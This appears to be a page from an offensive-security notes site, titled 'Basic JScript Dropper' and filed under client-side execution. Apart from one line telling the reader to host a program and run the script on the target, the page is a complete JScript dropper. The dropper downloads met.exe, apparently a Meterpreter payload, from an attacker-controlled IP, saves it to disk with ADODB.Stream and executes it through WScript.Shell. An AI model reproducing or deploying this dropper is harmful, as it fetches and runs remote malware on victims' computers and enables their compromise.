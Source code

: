 ```yaml
---
title: Basic JScript Dropper
layout: default
parent: Client Side Execution
nav_order: 7
---
```


First you need to host the program, then run this as a js file in the target:

```
var url = "http://IP/met.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
var Stream = WScript.CreateObject('ADODB.Stream');
Stream.Open();
Stream.Type = 1;
Stream.Write(Object.ResponseBody);
Stream.Position = 0;
Stream.SaveToFile("met.exe", 2);
Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("met.exe");
```

